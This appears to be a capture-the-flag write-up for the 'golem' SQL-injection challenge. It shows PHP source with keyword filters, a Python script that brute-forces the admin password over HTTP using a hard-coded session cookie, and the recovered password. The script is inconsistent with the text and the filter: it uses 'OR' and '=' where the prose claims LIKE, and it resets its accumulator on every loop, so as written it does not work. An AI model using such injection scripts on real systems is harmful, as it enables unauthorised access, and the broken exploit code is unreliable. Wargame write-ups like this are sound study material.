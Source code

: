 
#  GOLEM
```
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```
Using %% which denotes to match the character which is present at any position in the password.Using LIKE instead of =.

```
import requests
import string
characters = string.ascii_letters + string.digits
session = {
    "PHPSESSID": "dovaradinkdstego4urhvano2"
}
dbpass = ""
for i in range(1, 9):
    dbpass = ""
    for char in characters:
        paran = {
            "pw": f"OR LEFT(pw, {i}) = '{dbpass + char}' -- "
        }
        response = requests.get("https://los.rubiya.kr/chall/golem_60e5b360795c119588e4f3a86c5dd494.php", params=paran, cookies=session)
        output = response.text
        if "Hello admin" in output:
            dbpass += char
            break
print("Password:", dbpass)
```

###### password:77d6290b
 ***
####   query : select id from prob_golem where id='guest' and pw='77d6290b'.
***
